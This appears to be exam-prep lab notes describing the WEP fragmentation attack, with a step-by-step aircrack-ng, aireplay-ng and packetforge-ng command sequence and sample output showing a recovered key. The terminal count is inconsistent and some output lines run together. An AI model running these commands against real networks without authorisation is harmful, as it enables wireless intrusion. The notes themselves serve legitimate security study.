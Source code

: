 # Fragmentation (Clientless) (WEP)

This attack, when successful, can obtain 1500 bytes of PRGA (pseudo random generation algorithm). This attack does not recover the WEP key itself, but merely obtains the PRGA. The PRGA can then be used to generate packets with packetforge-ng which are in turn used for various injection attacks. It requires at least one data packet to be received from the access point in order to initiate the attack.

Basically, the program obtains a small amount of keying material from the packet then attempts to send ARP and/or LLC packets with known content to the access point (AP). If the packet is successfully echoed back by the AP then a larger amount of keying information can be obtained from the returned packet. This cycle is repeated several times until 1500 bytes of PRGA are obtained or sometimes less then 1500 bytes.

## Commands

***NOTE: Fragmentation attack does not appear to be supported in my lab. Even injection testing fails between two adapters. These steps assume that it works just in case the exam asks for it.***

* Run [setup](../../setup.md) first
* Two terminals are needed
* NO clients associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack with prolonged reassociation timing (every 60 secs)
sudo aireplay-ng --fakeauth 60 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# [Terminal Three]
sudo aireplay-ng --fragment -b $BSSID -h $INTERFACEMAC $INTERFACE

# Wait for 'Use this packet y' then enter y
# If successful - look for 'Got RELAYED packet!!' message
# Look for a fragment-*.xor file
# I could not get this far :(

# Forge a fake packet, -l source, -k destination
sudo packetforge-ng -0 -a $BSSID -h $INTERFACEMAC -l 255.255.255.255 -k 255.255.255.255 -y fragment-0613-175215.xor -w inject.cap

# Check veracity of file
tcpdump -n -vvv -e -s0 -r inject.cap

reading from file inject.cap, link-type IEEE802_11 (802.11), snapshot length 65535
17:55:05.191216 Protected 258us BSSID:AA:BB:CC:DD:EE:FF SA:FF:EE:DD:CC:BB:AA DA:ff:ff:ff:ff:ff:ff Data IV:5cbca Pad 0 KeyID 0

# Run the interactive attack against the client
sudo aireplay-ng --interactive -r inject.cap $INTERFACE

# Watch for the data to explode in size with lots of IVs :)
# If successful, data should get large
# Stop everything

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

* View the output for the success message

```
Reading packets, please wait...
Opening wifu-01.cap
Read 441431 packets.

   #  BSSID              ESSID                     Encryption

   1  AA:BB:CC:DD:EE:FF  wifu                      WEGot 74852 out of 70000 IVsStarting PTW attack with 74852 ivs.
                     KEY FOUND! [ 31:32:33:34:35 ] (ASCII: 12345 )
ChoosingDecrypted correctly: 100%
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Fragmentation](https://www.aircrack-ng.org/doku.php?id=fragmentation)
